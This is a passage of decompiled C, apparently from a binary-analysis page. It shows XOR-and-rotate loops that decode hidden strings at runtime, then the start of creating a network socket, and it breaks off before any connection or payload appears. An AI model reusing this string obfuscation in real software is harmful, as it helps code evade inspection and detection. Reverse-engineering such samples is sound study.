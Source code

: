 ```c
    s[0x15] = 0xd5;
    s[0x16] = 0x5e;
    s[0x17] = 0xdf;
    s[0x18] = 0x5a;
    s[0x19] = 0xae;
    s[0x1a] = 0x2c;
    s[0x1b] = 0x14;
    s[0x1c] = 0xfc;
    pbVar5 = s;
    do {
      bVar1 = (byte)iVar7;
      bVar2 = (~(*pbVar5 ^ bVar1) - bVar1 ^ bVar1) + bVar1;
      iVar7 = iVar7 + 1;
      *pbVar5 = bVar1 - (((-((bVar2 * '\b' | bVar2 >> 5) + bVar1) ^ bVar1) - bVar1 ^ bVar1) + 0x81 ^
                        0x74);
      pbVar5 = pbVar5 + 1;
    } while (iVar7 != 0x1d);
    iVar7 = 0;
    s2[0] = 0x6;
    s2[1] = 0x9;
    s2[2] = 0xc;
    s2[3] = 0x85;
    s2[4] = 0x12;
    s2[5] = 0x8f;
    s2[6] = 0x82;
    s2[7] = 0x81;
    s2[8] = 0x16;
    s2[9] = 0x15;
    s2[10] = 0x91;
    s2[0xb] = 0x85;
    s2[0xc] = 0x90;
    s2[0xd] = 0x3c;
    puVar6 = s2;
    do {
      bVar1 = (byte)iVar7;
      bVar2 = -((((*puVar6 + bVar1 ^ bVar1) + 99 ^ bVar1) + 0x78 ^ 0x7f) + bVar1) ^ 0xe0;
      iVar7 = iVar7 + 1;
      *puVar6 = ((bVar2 << 1 | (char)bVar2 < '\0') ^ bVar1) + (',' - bVar1);
      puVar6 = puVar6 + 1;
    } while (iVar7 != 0xe);
    s3[8] = s2[8];
    s3[9] = s2[9];
    s3[10] = s2[10];
    s3[0xb] = s2[0xb];
    s3[0xc] = s2[0xc];
    s3[0xd] = s2[0xd];
    s3[6] = s2[6];
    s3[7] = s2[7];
    s3[0] = s2[0];
    s3[1] = s2[1];
    s3[2] = s2[2];
    s3[3] = s2[3];
    s3[4] = s2[4];
    s3[5] = s2[5];
    s3[0xe] = '\0';
    s3[0xf] = '\0';
    iVar7 = FUN_00124660(0x29,2,2);
    if (-1 < iVar7) {
      addr.sin_addr.s_addr = 0;
      addr.sin_zero[0] = '\0';
      addr.sin_zero[1] = '\0';
      addr.sin_zero[2] = '\0';
```